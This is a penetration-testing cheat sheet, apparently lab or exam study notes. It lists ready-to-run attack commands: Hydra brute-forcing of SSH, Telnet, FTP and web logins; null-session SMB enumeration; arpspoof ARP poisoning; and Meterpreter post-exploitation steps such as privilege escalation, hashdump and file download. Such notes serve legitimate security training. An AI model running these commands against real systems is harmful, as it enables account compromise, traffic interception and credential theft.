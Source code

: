 ```yaml
---
description: 'SSH, Telnet, RDP, HTTP auth, Windows shares'
---
```


# Network Attacks

## Hydra

### SSH

```text
hydra -L users.txt -P pass.txt 10 10.10.10.10 ssh
```

### Telnet

```text
hydra -L users.txt -P pass.txt telnet://10.10.10.10
```

### FTP

```text
hydra -L users.txt -P pass.txt ftp://10.10.10.10
```

### POST form login

```text
hydra 10.10.10.10 http-post-form "/login.php:user=^USER^&pass=^PASS^:statement for incorrect login" -L /usr/share/ncrack/minimal.usr -P /etc/john/rockyou.txt
```

Add`-f` to stop the brute-forcing after finding one valid cred.

* /usr/share/seclists/Passwords/rockyou-10.txt
* /usr/share/seclists/Passwords/rockyou-15.txt The above password lists are recommended to run first before the larger rockyou.txt
* /usr/share/ncrack/minimal.usr for users list.

## Windows Shares using Null Sessions

### Shares Enumeration

```text
nmblookup -A 10.10.10.10
```

### List Shares

```text
smbclient -L //10.10.10.10 -N
```

### Mount Share

```text
smbclient //10.10.10.10/sharename -N
```

### enum4linux

```text
enum4linux -a 10.10.10.10
```

The above command does all the previous ones and gives you more data too except mounting the shares, that you have to implement using smbclient.

## ARP Poisoning

### arpspoof

&lt;interface&gt; == eth0/tap0

```text
arpspoof -i <interface> -t target -r host
```

## Metasploit

### Basic

```text
search <term>
use <term>
info
show options
set <option> x
exploit
```

### Meterpreter

**bind\_tcp**: runs a server process on the target machine that waits for connections from attacker machine.

**reverse\_tcp**: performs a TCP connection back to the attacker machine. Helps evade firewall rules.

```text
background #backgrounds the current session
sessions -l
sessions -i %n
sysinfo
ifconfig, route
getuid
getsystem #privesc
bypassuac #if privesc fails
hashdump
cat '/path/to/file.txt'
download '/path/to/fileontarget.txt' /root/mymachine/
```

